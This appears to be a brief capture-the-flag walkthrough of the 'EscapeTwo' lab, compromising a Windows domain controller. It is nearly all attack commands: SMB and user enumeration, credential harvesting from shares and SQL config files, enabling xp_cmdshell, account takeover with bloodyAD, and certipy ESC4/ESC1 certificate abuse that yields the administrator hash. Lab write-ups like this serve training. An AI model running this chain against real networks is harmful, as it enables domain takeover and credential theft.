

EscapeTwo
Portscan
nmap -sVC -p- --open -sS --min-rate 5000 -v -n --stats-every=5s -Pn -oN scan_txt 10.10.11.51
User creds rose:KxEPkKe6R8su
Mapping SMB
smbmap -H 10.10.11.51 -u "rose" -p "KxEPkKe6R8su"
Enumerate Users
nxc smb 10.10.11.51 -u rose -p KxEPkKe6R8su --users
I find the accounts file on a smb share
smbclient //10.10.11.51/Accounting\ Department -U rose

This file its a zip file
In the file sharedStrings.xml i found creds for the mssql server
sa@sequel.htb:MSSQLP@ssw0rd!
I connect to the service
impacket-mssqlclient sa:'MSSQLP@ssw0rd!'@10.10.11.51
I enable the cmd shell in the mssql shell
I found a second password on sql-Configuration.INI
ENABLERANU="False"
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
SECURITYMODE="SQL"
SAPWD="MSSQLP@ssw0rd!"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
With this creds i do test this password with all users i find

I get a reverse shell with evil-wiRM
With ryan i have WriteOwner on CA_SVC who is member of CERT PUBLISHERS
I will change the password of the CA_SVC for have access to this user and create a certificate
bloodyAD --dc-ip 10.10.11.51 --host dc01.sequel.htb -d sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3' set owner "CA_SVC" "ryan"
bloodyAD --dc-ip 10.10.11.51 --host dc01.sequel.htb -d sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3' add genericAll "CA_SVC" "ryan"
bloodyAD --host "dc01.sequel.htb" -d "sequel.htb" --kerberos --dc-ip 10.10.11.51 -u "ryan" -p 'WqSZAF6CysDQbGb3' set password "CA_SVC" "GoPwnnetTeam"
I can exploit for privesc with vuln CA - ESC4
Next I will create a template
certipy-ad template -dc-ip 10.129.153.151 -u ca_svc -p 'GoPwnnetTeam' -template "DunderMifflinAuthentication" -target dc01.sequel.htb -save-old -target-ip 10.10.11.51
Then I syncronice the date
sudo ntpdate -u dc01.sequel.htb
Then I exploit ESC1
certipy-ad req -username ca_svc@sequel.htb -password GoPwnnetTeam -ca sequel-DC01-CA -target sequel.htb -template "DunderMifflinAuthentication" -upn administrator@sequel.htb -target-ip 10.10.11.51 -dc-ip 10.10.11.51
[*] Saved certificate and private key to 'administrator.pfx'
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.51
And we got the hash for the administrator
Got hash for 'administrator@sequel.htb'